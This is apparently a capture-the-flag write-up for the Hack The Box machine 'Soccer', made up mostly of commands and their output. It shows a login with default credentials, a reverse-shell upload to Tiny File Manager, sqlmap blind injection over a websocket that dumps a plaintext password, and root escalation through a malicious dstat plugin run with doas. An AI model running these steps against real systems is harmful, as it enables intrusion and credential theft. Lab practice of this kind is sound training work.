

# Soccer

```bash
TARGET=10.10.11.194
```

```bash
$ curl -v $TARGET:80     
*   Trying 10.10.11.194:80...
* Connected to 10.10.11.194 (10.10.11.194) port 80
> GET / HTTP/1.1
> Host: 10.10.11.194
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 22 May 2024 03:33:39 GMT
< Content-Type: text/html
< Content-Length: 178
< Connection: keep-alive
< Location: http://soccer.htb/
< 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.10.11.194 left intact
```

```bash
$ cat /etc/hosts | grep $TARGET                                              
10.10.11.194    soccer.htb
```

```bash
$ sudo nmap -v -sC -sV $TARGET 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 20:27 PDT
...
Scanning 10.10.11.194 [4 ports]
Completed Ping Scan at 20:27, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 20:27
Scanning soccer.htb (10.10.11.194) [1000 ports]
Discovered open port 22/tcp on 10.10.11.194
Discovered open port 80/tcp on 10.10.11.194
Discovered open port 9091/tcp on 10.10.11.194
...
Nmap scan report for soccer.htb (10.10.11.194)
Host is up (0.099s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index 
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Wed, 22 May 2024 03:27:53 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Wed, 22 May 2024 03:27:54 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
```

```bash
$ feroxbuster -u http://soccer.htb:80/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -x "txt,html,php,asp,aspx,jsp" -v -k -n -q -e -r 
                                                                                                              404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter403      GET        7l       10w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filterScanning: http://soccer.htb:80/                             
200      GET      147l      526w     6917c http://soccer.htb/index.html
200      GET      494l     1440w    96128c http://soccer.htb/ground3.jpg
200      GET      711l     4253w   403502c http://soccer.htb/ground2.jpg
200      GET     2232l     4070w   223875c http://soccer.htb/ground4.jpg
200      GET      809l     5093w   490253c http://soccer.htb/ground1.jpg
200      GET      147l      526w     6917c http://soccer.htb/
200      GET       96l     1750w    11521c http://soccer.htb/tiny/
```


```bash
$ curl -s http://soccer.htb/tiny/ | grep tiny   
    <a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a> &mdash;&mdash;
```


| Username | Password | Target |
| -- | -- | -- |
| admin | admin@123 | http://soccer.htb/tiny/ |


We have write priv on the `/uploads` directory. However, it seems there is an automation quickly removing files after creation. We need to set a reverse shell and execute it before the automation remove it.


```bash
$ rlwrap -cAr nc -nlvp 9090
listening on [any] 9090 ...
```

```bash
curl http://soccer.htb/tiny/uploads/file01.php
```

```bash
$ rlwrap -cAr nc -nlvp 9090
listening on [any] 9090 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.194] 59358
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 04:02:05 up  3:13,  0 users,  load average: 0.09, 0.08, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```bash
$ uname -a
uname -a
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
player:x:1001:1001::/home/player:/bin/bash
mysql:x:113:121:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
```

```bash
www-data@soccer:/$ ls -lha /etc/nginx/sites-available
total 16K
drwxr-xr-x 2 root root 4.0K Dec  1  2022 .
drwxr-xr-x 8 root root 4.0K Nov 17  2022 ..
-rw-r--r-- 1 root root  442 Dec  1  2022 default
-rw-r--r-- 1 root root  332 Nov 17  2022 soc-player.htb
```

```bash
www-data@soccer:/$ cat /etc/nginx/sites-available/default
server {
        listen 80;
        listen [::]:80;
        server_name 0.0.0.0;
        return 301 http://soccer.htb$request_uri;
}
server {
        listen 80;
        listen [::]:80;

        server_name soccer.htb;

        root /var/www/html;
        index index.html tinyfilemanager.php;

        location / {
               try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        }
        location ~ /\.ht {
                deny all;
        }
}

www-data@soccer:/$ cat /etc/nginx/sites-available/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }
}
```

```bash
$ cat /etc/hosts | grep $TARGET                              
10.10.11.194    soccer.htb soc-player.soccer.htb
```


After creating an account and we land on a page with some ticket info.


Web Socket (websocket) - Switching Protocols




```bash
$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:13:17 /2024-05-21/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[23:13:17] [INFO] testing connection to the target URL
[23:13:21] [INFO] checking if the target is protected by some kind of WAF/IPS
[23:13:21] [INFO] testing if the target URL content is stable
[23:13:22] [INFO] target URL content is stable
[23:13:22] [INFO] testing if (custom) POST parameter 'JSON id' is dynamic
[23:13:22] [WARNING] (custom) POST parameter 'JSON id' does not appear to be dynamic
[23:13:22] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON id' might not be injectable
[23:13:23] [INFO] testing for SQL injection on (custom) POST parameter 'JSON id'
[23:13:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:13:43] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[23:13:50] [INFO] (custom) POST parameter 'JSON id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable 
[23:13:50] [INFO] testing 'Generic inline queries'
[23:13:50] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:13:50] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[23:13:51] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:13:51] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:13:52] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[23:13:52] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[23:13:52] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[23:13:53] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[23:13:53] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:13:53] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:13:54] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:13:54] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:13:55] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[23:13:55] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[23:13:55] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:13:56] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[23:13:56] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[23:13:56] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[23:13:57] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[23:13:57] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[23:13:58] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[23:13:58] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[23:13:58] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[23:13:59] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[23:13:59] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[23:13:59] [INFO] testing 'MySQL inline queries'
[23:14:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[23:14:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[23:14:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[23:14:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[23:14:01] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[23:14:02] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[23:14:02] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:14:13] [INFO] (custom) POST parameter 'JSON id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[23:14:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:14:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:14:21] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[23:14:30] [INFO] testing 'Generic UNION query (52) - 21 to 40 columns'
[23:14:38] [INFO] testing 'Generic UNION query (52) - 41 to 60 columns'
[23:14:45] [INFO] testing 'Generic UNION query (52) - 61 to 80 columns'
[23:14:53] [INFO] testing 'Generic UNION query (52) - 81 to 100 columns'
[23:15:00] [INFO] testing 'MySQL UNION query (52) - 1 to 20 columns'
[23:15:13] [INFO] testing 'MySQL UNION query (52) - 21 to 40 columns'
[23:15:20] [INFO] testing 'MySQL UNION query (52) - 41 to 60 columns'
[23:15:28] [INFO] testing 'MySQL UNION query (52) - 61 to 80 columns'
[23:15:35] [INFO] testing 'MySQL UNION query (52) - 81 to 100 columns'
[23:15:43] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[23:15:43] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 374 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-5083 OR 1317=1317"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 6902 FROM (SELECT(SLEEP(5)))jmrE)"}
---
[23:15:53] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[23:15:54] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/soc-player.soccer.htb'

[*] ending @ 23:15:54 /2024-05-21/
```

`--dbs`

```bash
$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...        
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
...
```

`-D soccer_db` and `--tables`

```bash
$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
...
```

`-D soccer_db` and `-T accounts` and `--dump`

```bash
$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
...
```

| Username | Password | Target |
| -- | -- | -- |
| admin | admin@123 | http://soccer.htb/tiny/ |
| player | PlayerOftheMatch2022 | ssh |

```bash
$ sshpass -p PlayerOftheMatch2022 ssh player@$TARGET
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
...
  System load:           0.26
  Usage of /:            72.9% of 3.84GB
  Memory usage:          25%
  Swap usage:            0%
  Processes:             246
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f541
...
Last login: Wed May 22 06:41:28 2024 from 10.10.14.2
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

`doas`

```bash
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
```

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

[gtfobins - dstat](https://gtfobins.github.io/gtfobins/dstat/)

```bash
player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_kali.py
```

```bash
player@soccer:~$ cat /usr/local/share/dstat/dstat_kali.py
import os

os.system("/bin/bash")
```

```bash
player@soccer:~$ doas /usr/bin/dstat --kali
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
```

## Link

[0xdf - soccer](https://0xdf.gitlab.io/2023/06/10/htb-soccer.html)
